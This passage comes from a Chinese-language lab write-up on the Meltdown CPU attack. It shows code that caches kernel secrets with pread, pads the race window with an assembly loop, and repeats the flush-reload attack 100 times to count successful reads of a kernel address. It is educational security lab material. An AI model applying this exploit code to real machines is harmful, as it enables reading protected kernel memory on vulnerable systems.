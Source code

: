## Task 7.2: Improve the Attack by Getting the Secret Data Cached
Meltdown的脆弱性在于乱序执行与访问check之间的竞争。我们想要乱序执行的语句更多。所以我们需要弄清楚如何能让乱序执行更快。

在我们的代码中，乱序执行涉及到加载kernel data 到寄存器中，以及访问的安全检查。if 数据加载慢于安全检查，乱序执行就会立即被中断并丢弃。我们的攻击也就会失败。Meltdown攻击能否成功，很大程序上取决于CPU和DRAM的性能。

在调用`Meltdown`之前，通过调用·`pread`接口，将Secret Data 加载到Cache中。从而在meltdown中能更快的将数据加载进寄存器，在与Access Check的竞争时间上产生优势。

## Task 7.3: Using Assembly Code to Trigger Meltdown

下面的汇编代码做了一些无用的计算，但我们的目的是**“give the algorithmic units something to chew while memory access is being speculated**。这样可以增加成功率。
```
char kernel_data = 0;
// Give eax register something to do
asm volatile(
// 重复400次
".rept 400;" ➀
// 简单的eax + 0x141
"add $0x141, %%eax;"
".endr;" ➁
:
:
: "eax"
);
```
对源文件`MeltdownExperiment.c`进行了一些简单的修改，让读取数据，检查cache执行100次。并且对reload函数进行了简单的修改，使其命中cache时返回1，供main函数进行计数。
```
int reloadSideChannel()
{
  ...
  for(i = 0; i < 256; i++){
     ...
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("The Secret = %d.\n",i);
         return 1;
     }
  }
  return 0;
}

// main 函数修改部分
for(int i = 0; i < 100; i++) {
    // Flush
    for(int j = 0; j < 256; j++) _mm_clflush(&array[j*4096 + DELTA]);
    int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.

    if (sigsetjmp(jbuf, 1) == 0) {
        meltdown_asm(0xf9967000);
     }

    // RELOAD the probing array
    getCount += reloadSideChannel();
}
printf("~Get secret data~ percentage: %d/100\n",getCount);

```
